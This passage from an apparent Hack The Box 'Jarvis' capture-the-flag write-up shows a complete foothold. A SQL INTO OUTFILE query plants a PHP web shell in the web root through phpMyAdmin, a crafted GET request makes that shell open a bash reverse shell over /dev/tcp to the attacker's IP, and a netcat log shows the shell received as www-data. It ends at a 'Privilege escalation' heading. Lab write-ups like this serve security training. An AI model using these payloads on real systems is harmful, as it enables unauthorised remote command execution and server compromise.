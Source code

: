 ![Create cmd.php from PHPMyAdmin](/assets/images/HTB-Jarvis/1.h%20Create%20cmd.php%20from%20PHPMyAdmin.png)

```sql
SELECT "<?php system($_GET['cmd']);?>" INTO outfile '/var/www/html/cmd.php'
```

```http
GET /cmd.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.16/443+0>%261" HTTP/1.1
```

```bash
luc@kali:~/HTB/Jarvis$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:37606.
bash: cannot set terminal process group (584): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$
```

## Privilege escalation
